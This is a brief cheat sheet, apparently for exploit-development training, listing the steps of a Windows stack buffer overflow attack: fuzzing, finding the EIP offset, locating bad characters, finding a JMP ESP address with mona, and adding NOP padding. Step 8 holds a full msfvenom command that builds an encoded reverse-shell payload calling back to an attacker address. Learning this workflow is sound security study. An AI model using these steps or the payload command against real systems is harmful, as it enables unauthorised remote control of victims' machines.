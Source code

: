 # General information

The process of discovering and exploiting a BOF requires some steps:

### 1. Use a fuzzer to get the exact Bytes to crash the app:

```python
size = 10

while (size < 200):
  buffer = "A" * size
  size += 10

```

### 2. Generate a custom script to replicate the crash:

```bash
buffer = "A" * XXXX
```

### 3. Extract exact offset with msf-pattern_create and msf-pattern_offset.

```python
msf-pattern_create -l XXX
msf-pattern_offset -l XXX -q XXX
```

### 4. Test EIP with "B" values:

```python
filler = "A" * $ExactOffset
eip = "B" * 4
offset = "C" * 20
```

### 5. Locate space for the shellcode (increasing number of C's).
### 6. Locate badchars.
### 7. Find an address to redirect the flow (JMP ESP?) that is static and doesn't contain bad chars:

```bash
!mona modules
>msf-nasm_shell
>JMP ESP
!mona find -s "\xff\xe4" -m "$MODULENAME" #Module with no security features.

If address is 0x10090c83 we should add into the code in reverse:
eip = "\x83\x0c\x09\x10"
```

### 8. Generate shellcode without badchars.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.139 LPORT=444 -f c EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x20"
```

### 9. shellcode is Encoded? Add some NOPs.

```bash
filler = "A" * $ExactOffset
eip = "\x\x\x\x"
offset = "C" * 4
nops = "\x90" * 10
shellcode = "\x\x\x\x...."
```
